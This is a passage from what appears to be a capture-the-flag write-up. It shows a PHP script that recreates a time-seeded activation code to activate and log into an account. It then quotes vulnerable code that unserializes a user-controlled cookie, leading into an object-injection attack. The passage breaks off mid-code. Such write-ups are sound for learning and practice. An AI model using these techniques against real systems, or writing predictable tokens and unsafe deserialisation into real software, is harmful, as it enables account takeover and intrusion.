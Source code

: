 Notice that there's a specific time specified by the machine. Perhaps we can just use this time to generate our activation cookie and then head to `activate.php` which asks for a `code` parameter. So, we can first copy the code used to generate the `activation_code` parameter.

Then, we can change the usage of `time()` to `strtotime('Wed, 11 Jan 2023 04:41:37 GMT')`, which is the time I registered a new account. The end script and output looks like this:

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";

srand(strtotime('Wed, 11 Jan 2023 04:41:37 GMT'));
//echo time();
echo "\n";
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo $activation_code;


$ php code.php       
vmsQdLZ9v5aUqAiUalTmt5CYnIxqrvpF
```

Afterwards, we use this `token` variable at `activate.php`.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just login as the user.&#x20;

### PHP Deserialisation

When reading the `utils.php` code some more, I found a few interesting bits. First is a hint to use deserialisation to exploit the machine, and a class called `Avatar` to exploit it with.

{% code title="utils.php" %}
```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

# Avatar Class elsewhere with f
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
```